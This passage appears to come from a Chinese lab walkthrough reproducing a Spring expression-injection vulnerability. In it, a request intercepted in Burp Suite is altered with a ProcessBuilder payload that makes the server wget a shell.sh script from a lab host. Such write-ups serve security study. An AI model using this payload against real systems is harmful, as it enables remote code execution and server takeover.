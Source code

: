 4.在点击Confirm按钮前我们需要进行burpsuite进行拦截抓包，截获数据包send to repeater，篡改数据包添加恶意payload：`&_(new+java.lang.ProcessBuilder("/usr/bin/wget","-P/tmp","http://192.168.159.128/shell.sh")).start()=feifei`，shell.sh放在可以访问的服务器中，执行请求包。

<center>![Spring](../images/yaof_images/1.png)</center>

5.查看自己虚拟机的/tmp目录下有没有成功下shell.sh,可以看到shell.sh成功下载

<center>![Spring](../images/yaof_images/2.png)</center>
